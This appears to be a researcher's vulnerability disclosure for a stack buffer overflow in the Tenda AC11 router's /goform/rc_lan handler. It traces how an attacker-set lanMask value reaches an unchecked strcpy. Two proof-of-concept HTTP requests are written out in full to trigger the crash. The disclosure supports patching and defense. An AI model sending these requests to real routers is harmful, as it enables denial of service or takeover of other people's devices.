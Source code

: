 # Tenda Router AC11 Vulnerability

This vulnerability lies in the `/goform/rc_lan` page which influences the lastest version of Tenda Router AC11. (FYI, lastest version of this product is [AC11_V02.03.01.104_CN](https://www.tenda.com.cn/download/detail-3163.html))

## Vulnerability description

There is a stack buffer overflow vulnerability in function `sub_80026358` (page `/goform/rc_lan`).

This function uses `strcpy` to copy a string variable `lan_netmask` to `v15`.

![1](1.PNG)

Then the function will go to  get a nvram variable called by `nvram_get` function. `v15` is string pointer of `lan_netmask`.So variable `v2` will get a nvram variable of `lan_netmask`. After that ,`v2` will copy to a stack buffer pointed by `v10`. `v2` is directly retrived from the nvram variable `lan_netmask` without any security check.

![5](5.PNG)

the `lan_netmask` variable can be controlled by attacker by calling the function `sub_800CC270`(page `/goform/start_dhcp_server`) which gets in a parameter called `lanMask` into varialbe `v12`, which can then be used to assign to the `lan_netmask` variable.

![2](2.PNG)

If function `sub_80012558` returns zero,then the nvram variable `lan_netmask` will be set as `v12` 

![3](3.PNG)

In function `sub_80012558`,it will first get the original nvram variable of `lan_netmask` and compare with `v12`. In function `gstrcmp_0`,if two parameters are the same,it will return 0. So if `v12` is different from the original value of nvram variable `lan_netmask`,then the function `sub_80012558` will return 0.

![4](4.PNG)

So by first setting the `lan_netmask` and then requesting the page `/goform/rc_lan`, the attacker can easily perform a **Deny of Service Attack** or **Remote Code Execution** with carefully crafted overflow data.

## POC

```plain
POST /goform/start_dhcp_server HTTP/1.1
Host: 192.168.0.1
Content-Length: 1043
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.66 Safari/537.36
Content-Type: application/x-www-form-urlencoded;
Accept: */*
Origin: http://192.168.0.1
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

module1=wifiBasicCfg&lanMask=111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111&doubleBandUnityEnable=false&wifiTotalEn=true&wifiEn=true&wifiSSID=Tenda_B0E040&wifiSecurityMode=WPAWPA2%2FAES&wifiPwd=Password12345&wifiHideSSID=false&LEDCloseTIme=1270219&wifiEn_5G=true&wifiSSID_5G=Tenda_B0E040_5G&wifiSecurityMode_5G=WPAWPA2%2FAES&wifiPwd_5G=Password12345&wifiHideSSID_5G=false&module2=wifiGuest&guestEn=false&guestEn_5G=false&guestSSID=Tenda_VIP&guestSSID_5G=Tenda_VIP_5G&guestPwd=&guestPwd_5G=&guestValidTime=8&guestShareSpeed=0&module3=wifiPower&wifiPower=high&wifiPower_5G=high&module5=wifiAdvCfg&wifiMode=bgn&wifiChannel=auto&wifiBandwidth=auto&wifiMode_5G=ac&wifiChannel_5G=auto&wifiBandwidth_5G=auto&wifiAntijamEn=false&module6=wifiBeamforming&wifiBeaformingEn=true&module7=wifiWPS&wpsEn=true
```

```plain
POST /goform/rc_lan HTTP/1.1
Host: 192.168.0.1
Content-Length: 103
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.66 Safari/537.36
Content-Type: application/x-www-form-urlencoded;
Accept: */*
Origin: http://192.168.0.1
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```

## Acknowledgment

Credit to [@Yu3H0](https://github.com/Yu3H0), [@peanuts](https://github.com/peanuts62), and [@cpegg](https://github.com/cpeggg) from Shanghai Jiao Tong University  and TIANGONG Team of Legendsec at Qi'anxin Group.
